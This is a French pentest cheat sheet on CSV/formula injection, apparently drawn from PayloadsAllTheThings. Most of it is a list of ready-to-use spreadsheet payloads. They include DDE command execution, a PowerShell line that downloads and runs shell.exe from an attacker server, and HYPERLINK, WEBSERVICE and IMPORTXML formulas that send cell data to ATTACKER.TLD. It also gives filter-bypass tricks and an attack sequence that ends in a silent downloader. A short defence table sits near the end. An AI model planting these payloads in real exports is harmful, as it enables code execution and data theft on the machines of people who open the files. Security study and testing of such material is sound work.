

# CSV Injection — Formula Injection

> [!info] **En 1 phrase**
> CSV Injection (Formula Injection) = injecter une **formule** préfixée par `=`, `+`, `-` ou `@`
> dans un export CSV que la victime ouvre ensuite dans **Excel / LibreOffice** → exécution de
> commandes via **DDE** ou **exfiltration** de données vers un serveur attaquant.
>
> Source principale : **[PayloadsAllTheThings (swisskyrepo)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/CSV%20Injection/README.md)**

---

## Concept



> [!info] **Pourquoi ça marche**
> Le tableur interprète **automatiquement** comme une formule toute cellule qui commence par
> `=`, `+`, `-` ou `@`. Si l'export ne les échappe pas, le contenu utilisateur devient du code
> exécuté à l'ouverture du fichier.

---

## Détection

> Tout champ renvoyé dans un export **CSV** (mais aussi TSV, XLSX, ODS…) et contrôlable par
> l'utilisateur est un point d'injection potentiel : nom d'utilisateur, email, commentaire,
> adresse, template de facture, exports admin...

### Préfixes déclencheurs

```text
=      # formule classique (Excel)
+      # formule (compatibilité Lotus 1-2-3, ignoré par certains filtres)
-      # formule (Excel 2016+ l'active, les filtres le laissent passer)
@      # formule (Excel)
<tab>  # traité comme début de formule dans Excel (bypass très efficace)
```

### Test rapide

```text
nom, =2+2
→ à l'ouverture, la cellule affiche "4" = vulnérable
```

> [!tip] **Test blind** : utiliser `=cmd|'/C calc'!A0` (DDE). Si une popup DDE ou la
> calculatrice s'ouvre, l'injection est confirmée.

---

## Payloads de formule (hors DDE)

Formules standard qui contactent un serveur ou déclenchent des actions au chargement :

```text
=HYPERLINK("http://ATTACKER.TLD/","cliquez ici")
=HYPERLINK("http://ATTACKER.TLD/steal?data="&A1,"data")      # exfiltration d'une autre cellule
=2+5+cmd|' /C calc'!A0                                        # mélange calcul + DDE
@SUM(1+1)*cmd|' /C calc'!A0                                   # préfixe @
```

Vecteurs d'exfiltration possibles : `HYPERLINK`, `WEBSERVICE` (Excel), requêtes externes,
et dans Google Sheets les fonctions `IMPORT*` (voir Exfiltration).

---

## Attaques DDE (Dynamic Data Exchange)

> DDE permet à une cellule de dialoguer avec un autre programme (dont `cmd.exe`). **Fermé par
> défaut dans Excel récent**, mais souvent accepté dans LibreOffice / Excel avec confirmation.

### Détails techniques du payload

- `cmd` : le nom du **serveur** DDE appelé (ex: `cmd`).
- `/C calc` : le **nom de fichier** demandé (ici la commande `calc`).
- `!A0` : le **nom d'item** (l'unité de donnée demandée au serveur).

### Spawn calc (preuve de concept)

```text
DDE ("cmd";"/C calc";"!A0")A0
@SUM(1+1)*cmd|' /C calc'!A0
=2+5+cmd|' /C calc'!A0
=cmd|' /C calc'!'A1'
```

### PowerShell download & execute

```text
=cmd|'/C powershell IEX(wget attacker_server/shell.exe)'!A0
```

### Obfuscation de préfixe et chaînage de commandes

```text
=AAAA+BBBB-CCCC&"Hello"/12345&cmd|'/c calc.exe'!A
=cmd|'/c calc.exe'!A*cmd|'/c calc.exe'!A
=         cmd|'/c calc.exe'!A          # espaces avant cmd → contourne les regex naïves
```

### rundll32 au lieu de cmd (évite la blacklist "cmd")

```text
=rundll32|'URL.dll,OpenURL calc.exe'!A
=rundll321234567890abcdefghijklmnopqrstuvwxyz|'URL.dll,OpenURL calc.exe'!A
```

### Caractères nuls (bypass des filtres par dictionnaire)

```text
=    C    m D                    |        '/        c       c  al  c      .  e                  x       e  '   !   A
```

> Les espaces multiples ne sont pas des espaces "normaux" pour la regex : ils sont **ignorés
> à l'exécution** par le moteur DDE mais cassent le motif attendu par le filtre.

---

## Bypass des filtres

| Filtre courant | Contournement |
|---|---|
| `cmd` / `calc` en blacklist | `rundll32`, mélange majuscules/minuscules, espaces intercalés |
| Préfixe `=` bloqué | utiliser `+`, `-`, `@`, ou un **tabulation** en début de cellule |
| Filtre par dictionnaire | caractères nuls + espaces (`=   C   m D ...`) |
| Filtré au niveau du champ | encodage HTML/URL de l'entrée, puis décodage au moment de l'export |
| Chiffres/lettres autorisés | chaînage (`*`) et expressions calculées (`AAAA+BBBB-CCCC`) |

---

## Exfiltration

### Google Sheets

Fonctions `IMPORT*` permettant de **contacter une URL** (nécessitent une autorisation
utilisateur — un avertissement s'affiche) :

- `IMPORTXML(url, xpath_query, locale)`
- `IMPORTRANGE(spreadsheet_url, range_string)`
- `IMPORTHTML(url, query, index)`
- `IMPORTFEED(url, [query], [headers], [num_items])`
- `IMPORTDATA(url)`

Test **blind / exfiltration** :

```text
=IMPORTXML("http://[ATTACKER.DOMAIN.TLD]/csv", "//a/@href")
```

### Excel

```text
=WEBSERVICE("http://ATTACKER.TLD/"&A1)     # exfiltrer le contenu de la cellule A1
=HYPERLINK("http://ATTACKER.TLD/?d="&B2,"x")
```

> [!warning] **Limite** : les valeurs exfiltrées le sont via les cellules du **même fichier**.
> Pour extraire des données sensibles, il faut souvent croiser deux exports (créer une cellule
> contenant les données, puis la référencer dans la formule).

---

## Versions

| Logiciel | Comportement |
|---|---|
| **Excel (moderne)** | DDE désactivé par défaut (avertissement à l'ouverture) ; `WEBSERVICE`/`HYPERLINK` actifs |
| **Excel (ancien / `-` préfixe)** | DDE actif, très vulnérable |
| **LibreOffice / OpenOffice** | Les `@SUM(...)` et `=` sont interprétés, DDE exécuté selon la config |
| **Google Sheets** | N'exécute pas de commandes mais les fonctions `IMPORT*` font des requêtes réseau |
| **Éditeurs texte** | Aucune exécution — l'angle passe par le tableur de la victime |

---

## Détection & Défense

| Réponse | Détail |
|---|---|
| **Échapper les préfixes** | Ne jamais laisser `=`, `+`, `-`, `@` ou tab en début de cellule : préfixer par `'` ou espace insécable |
| **Préfixer toutes les cellules** | Ajouter un `'` (apostrophe) systématiquement — Excel l'affiche sans l'interpréter |
| **Désactiver DDE / formules actives** | Réglages Excel : désactiver DDE, macros et liens externes ; LibreOffice pareil |
| **Input validation** | Rejeter/neutraliser les caractères `= + - @` en début de champ utilisateur |
| **Échappement spécifique Excel** | Entourer la valeur de `"` et doubler les `"` internes (CSV correct) |
| **Surveillance** | Alertes sur popups DDE, demandes réseau sortantes vers domaines inconnus |

---

## Tips & Pièges

> [!tip] **Ordre logique d'attaque**
> 1. Trouver un champ reflété dans un export CSV → 2. Tester `=2+2` (calcul ?) →
> 3. Confirmer avec un payload DDE `=cmd|'/C calc'!A0` → 4. Upgrade vers un downloader PowerShell
> ou une exfiltration `IMPORT*` / `HYPERLINK`.

> [!warning] **Pièges**
> - Le fichier CSV est ouvert par la **victime** : la commande s'exécute sur sa machine, pas sur le serveur.
> - Excel moderne **bloque DDE** par défaut → tester aussi sur LibreOffice et vérifier les versions.
> - Une popup de sécurité (DDE / macros) peut apparaître : prévoir un payload silencieux.
> - `-` en préfixe est activé sur Excel 2016+ mais **passé sous silence par la plupart des filtres**.
> - La tabulation en début de cellule est un bypass très efficace des filtres de préfixe.
> - Les exports **XLSX/XLSM** (et non seulement CSV) amplifient le risque (macros).

---

## Liens

- [[XSS (Cross-Site Scripting)| XSS]]
- [[Injection de commandes| Injection de commandes]]
- → Note complète : [[03 - Exploitation Web| Exploitation Web]]
- Source : [PayloadsAllTheThings — CSV Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/CSV%20Injection/README.md)
